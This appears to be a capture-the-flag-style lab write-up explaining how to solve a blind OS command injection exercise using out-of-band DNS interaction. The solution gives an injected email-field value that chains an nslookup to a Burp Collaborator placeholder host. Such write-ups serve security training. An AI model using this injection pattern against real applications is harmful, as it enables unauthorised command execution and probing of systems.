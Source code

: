 # Lab-4: Blind OS command injection with out-of-band interaction
## LAB Description - 
This lab contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

`Note - 
To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.`

## Solution - 
    * Use Burp Suite to intercept and modify the request that submits feedback.
    * Modify the email parameter, changing it to:

    email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||

    * Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified email parameter.


![Screenshot_2023-05-19_23_26_00](https://github.com/a-fai1ur3/Writeups/assets/119417999/888a1fb6-ffc1-46c7-86b9-c3ed0b6eef7f)
